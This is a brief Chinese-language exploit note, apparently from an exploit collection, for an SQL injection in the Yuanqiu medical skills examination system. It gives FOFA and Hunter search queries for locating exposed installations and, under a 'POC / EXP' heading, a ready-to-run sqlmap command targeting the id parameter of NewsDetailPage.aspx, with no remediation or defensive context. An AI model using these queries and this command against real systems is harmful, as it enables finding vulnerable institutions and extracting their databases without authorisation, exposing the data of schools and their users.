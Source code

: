 # 远秋医学技能考试系统SQL注入

## 网络测绘

fofa: app="远秋医学技能考试系统"

hunter: web.title="远秋医学技能考试系统"

## POC / EXP

```
sqlmap -u "http://xxx.xxx.xxx.xxx/NewsDetailPage.aspx?key=news&id=7" -p id -batch
```
